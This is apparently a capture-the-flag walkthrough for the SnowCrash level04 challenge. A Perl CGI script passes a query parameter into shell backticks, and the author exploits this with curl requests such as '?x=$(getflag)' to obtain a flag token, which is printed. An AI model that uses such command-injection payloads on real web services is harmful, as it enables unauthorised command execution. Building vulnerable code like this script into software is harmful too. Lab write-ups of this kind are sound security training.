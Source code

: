 #Level04

This time we have a perl script ran as flag04.

	\#!/usr/bin/perl
	\# localhost:4747
	use CGI qw{param};
	print "Content-type: text/html\n\n";
	sub x {
	  $y = $_[0];
	  print `echo $y 2>&1`;
	}
	x(param("x"));

So the script would print the value of the parameter "x" passed as argument to stdin.
There is no input validation so we can try to send some commands : 

	level04@SnowCrash:~$ ./level04.pl 'x=$(id)'
	Content-type: text/html
	
	uid=2004(level04) gid=2004(level04) groups=2004(level04),100(users)

We are still executing as level04 and not flag04 so we can't run getflag.
However, we can see on the second line of the program that it could be run by a server.

	level05@SnowCrash:~$ netstat -tunl
	Active Internet connections (only servers)
	Proto Recv-Q Send-Q Local Address           Foreign Address         State
	tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN
	tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN
	tcp6       0      0 :::4646                 :::*                    LISTEN
	tcp6       0      0 :::4747                 :::*                    LISTEN
	tcp6       0      0 :::80                   :::*                    LISTEN
	tcp6       0      0 :::4242                 :::*                    LISTEN
	udp        0      0 0.0.0.0:68              0.0.0.0:*

There is indeed a process listening on port 4747. If we try to connect to it using nc :

	level04@SnowCrash:~$ nc localhost 4747
	x=test
	
	level04@SnowCrash:~$ nc localhost 4747
	x=$(id)

Not much going on. If we send a GET request using curl instead : 

	level04@SnowCrash:~$ curl 'localhost:4747/?x=$(id)'
	uid=3004(flag04) gid=2004(level04) groups=3004(flag04),1001(flag),2004(level04)
	
	level04@SnowCrash:~$ curl 'localhost:4747/?x=$(getflag)'
	Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
